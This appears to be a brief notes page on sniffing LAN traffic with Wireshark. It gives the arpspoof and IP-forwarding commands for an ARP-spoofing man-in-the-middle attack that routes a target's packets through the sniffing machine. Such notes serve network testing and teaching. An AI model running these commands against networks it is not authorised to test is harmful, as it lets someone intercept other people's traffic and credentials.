 ```yaml
---
title: Wireshark
bookCollapseSection: true
weight: 634
---
```


### Sniff lan traffic

* Install `dsniff` o any package that furnishes `arpspoof`
* Enable IP forwarding with `echo 1 > /proc/sys/net/ipv4/ip_forward`
* Start the Arp spoofing with `arpspoof -i eth0 -t 192.168.0.3 192.168.0.1` where `-t` is the target ip and the following is the ip of the gateway. This way the target computer will think our computer is the gateway and will route all packets through it. The local pc will then forward all the packets to the real gateway
* Use Wireshark on the local network interface (eth0, in the above case) to sniff the traffic
